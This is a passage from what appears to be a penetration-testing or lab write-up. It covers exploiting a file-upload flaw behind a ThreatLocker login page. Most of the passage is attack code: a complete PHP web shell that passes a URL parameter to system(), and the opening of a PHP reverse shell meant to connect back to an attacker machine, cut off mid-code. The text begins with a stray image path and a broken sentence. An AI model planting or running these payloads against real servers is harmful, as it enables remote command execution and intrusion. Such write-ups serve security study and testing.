 The thing that we saw is that the vat stProductBuild is 6919 and that stProductVersion is 100.0.6919. This 

## Exploitation Phase

### HTTPS Port 443 /4629
Get the Threatlocker login page.

#### Option 1 Command injection page
This payload is the PHP cmd payload from [ReveShell.com](https://www.revshells.com/) 
This will make our file upload vulnerability and turn it into a command 
injection vulnerability, where we can put commands just like if we had a reverse shell. 

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd']);
    }
?>
</pre>
</body>
<script>document.getElementById("cmd").focus();</script>
</html>

```


#### Option 2 reverse shell
This payload is the PHP Ivan Sincek payload from [ReveShell.com](https://www.revshells.com/) and this will make a reverse shell to our attacker machine. 

```php
<?php
// Copyright (c) 2020 Ivan Sincek
// v2.3
// Requires PHP v5.0.0 or greater.
// Works on Linux OS, macOS, and Windows OS.
// See the original script at https://github.com/pentestmonkey/php-reverse-shell.
class Shell {
    private $addr  = null;
    private $port  = null;
    private $os    = null;
    private $shell = null;
    private $descriptorspec = array(
        0 => array('pipe', 'r'), // shell can read from STDIN
        1 => array('pipe', 'w'), // shell can write to STDOUT
        2 => array('pipe', 'w')  // shell can write to STDERR
    );
    private $buffer  = 1024;    // read/write buffer size
    private $clen    = 0;       // command length
    private $error   = false;   // stream read/write error
    public function __construct($addr, $port) {
        $this->addr = $addr;
        $this->port = $port;
    }
    private function detect() {
        $detected = true;
```